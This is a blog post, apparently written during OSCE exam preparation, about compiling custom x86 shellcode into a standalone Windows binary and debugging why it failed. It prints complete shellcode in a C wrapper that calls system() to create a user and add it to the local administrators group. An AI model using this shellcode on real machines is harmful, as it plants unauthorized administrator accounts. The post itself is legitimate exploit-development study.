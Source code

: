 ```yaml
---
title: "Compiling and Running Custom Shellcode"
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - exploit development
---
```

![image](https://user-images.githubusercontent.com/29740744/114959112-61206b00-9e32-11eb-8285-37bce2973f5b.png)

While studying for the Offensive Security Certified Expert (OSCE), I took some time to practice writing custom shellcode and read up on how certain Windows API calls can be leveraged to execute your shellcode. I wanted to take it a step further and actually run my shellcode as a stand-alone binary apart from running it in an exploit for debugging purposes.

This post aims to provide a quick overview of my findings and perhaps help other aspiring exploit developers out there.

In this particular example, I used the system() function found in Windows msvcrt.dll. You can read more about that [here](http://www.gosecure.it/blog/art/452/sec/create-a-custom-shellcode-using-system-function/). The shellcode I chose to run creates a new user and adds them to the administrator's group. Below is the breakdown of the shellcode.

![image](https://user-images.githubusercontent.com/29740744/114959164-7c8b7600-9e32-11eb-8ba8-52ad43add435.png)

For the sake of brevity, I won't go into detail about how I came up with this shellcode. There are plenty of resources that cover custom shell coding. [This](https://www.fuzzysecurity.com/tutorials/expDev/6.html) post helped me quite a bit.

The next step was placing my shellcode in a C program. After a bit of searching, I found this format thanks to this [article](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html).

```c
#include <stdio.h>


unsigned char shellcode\[\] = "\\x31\\xc0"
"\\x50"
"\\x68\\x2f\\x61\\x64\\x64"
"\\x68\\x62\\x65\\x6c\\x20"
"\\x68\\x73\\x20\\x72\\x6f"	// This shellcode 
"\\x68\\x61\\x74\\x6f\\x72"  // runs the following 
"\\x68\\x69\\x73\\x74\\x72"  // command...
"\\x68\\x64\\x6d\\x69\\x6e"  // net user robel robel /add & 
"\\x68\\x75\\x70\\x20\\x61"  // net localgroup administrators robel /add
"\\x68\\x6c\\x67\\x72\\x6f"
"\\x68\\x6c\\x6f\\x63\\x61"
"\\x68\\x6e\\x65\\x74\\x20"
"\\x68\\x64\\x20\\x26\\x20"
"\\x68\\x20\\x2f\\x61\\x64"
"\\x68\\x6f\\x62\\x65\\x6c"
"\\x68\\x65\\x6c\\x20\\x72"
"\\x68\\x20\\x72\\x6f\\x62"
"\\x68\\x75\\x73\\x65\\x72"
"\\x68\\x6e\\x65\\x74\\x20"
"\\x89\\xE0"
"\\x6A\\x01"
"\\x50"
"\\xBB\\xc7\\x93\\xc2\\x77"  // Location of system() function call (update this)
"\\xFF\\xD3";




int main()
{
	((void(\*)())shellcode)();
	return 0;
}
```

Pretty straight forward up until this point right? All I needed to do now was compile this into a PE file and I'm good. Upon compiling this code in Visual Studio 2019, everything was successful up until running it on Windows 7...

![image](https://user-images.githubusercontent.com/29740744/114959200-93ca6380-9e32-11eb-9f9f-9e62b056bdf2.png)

Naturally, I ran the binary in a debugger to see what was going on. There were two things I discovered. First, there was an access violation once the program reached the beginning of my shellcode routine.

![image](https://user-images.githubusercontent.com/29740744/114959215-9c229e80-9e32-11eb-9319-689685595608.png)

This was easily fixed by modifying the .data section of the PE file to be executable. The next issue lies in the call to the system() function. Even if you have the correct address of where system() is located in memory, in this case, 0x7596B177 (NOTE: This address will change from boot to boot due to ASLR), the program crashes because the memory does not exist within the program. Why? Checking the imported modules reveals that msvcrt.dll is not loaded.

![image](https://user-images.githubusercontent.com/29740744/114959247-a8a6f700-9e32-11eb-8218-2d8592b3135a.png)

Remember, the system() function resides within msvcrt.dll. If it isn't loaded when the program is running, it cannot locate the pointer to system() in memory. I am not entirely sure why Visual Studio did not include the .DLL but my guess would have something to do with outdated and/or somewhat obsolete .DLLs.

So, going back to the code, I decided I needed to find a different compiler. After a bit of research, I decided to go with [MinGW](http://www.mingw.org/). From the command line, I ran the following...

```console
C:\\MinGW\\bin>mingw32-gcc.exe addUser.c -o adduser.exe
```

After opening the binary in a debugger, I can see that this time msvcrt.dll was imported.

![image](https://user-images.githubusercontent.com/29740744/114959269-b65c7c80-9e32-11eb-8275-71e95e2b9a91.png)

Setting a breakpoint on the address of system() in msvcrt.dll (again, this varies from boot to boot) I ran my program and examined the call stack when it hit the breakpoint. As expected, just before a function call was made to system(), Olly Dbg recognized the memory location of system() and the pointer address was successfully added to the EBX register.

(0040407D   MOV EBX, msvcrt.system)

![image](https://user-images.githubusercontent.com/29740744/114959285-be1c2100-9e32-11eb-8d34-6f6b7470f814.png)

Once I let the program continue to run, the user, robel, was created and added to the administrator's group as expected.

![image](https://user-images.githubusercontent.com/29740744/114959294-c4120200-9e32-11eb-867f-feba62bbaa33.png)

Notice that the program still crashes. I imagine it is due to a lack of an exit() function after my routine runs but I will save that for another time.

So what did I learn?

1.  Ensure your PE file's sections are executable. An access violation will let you know real quick.
2.  Take note of which compiler you are using when developing a standalone PE file. Not all of them work the same. Your binary might not run on different Windows OS versions.
3.  Validate the necessary imported modules for your shellcode to run in a debugger or PE examiner of your choice.

Please comment and provide feedback if you want to add anything or found this useful.
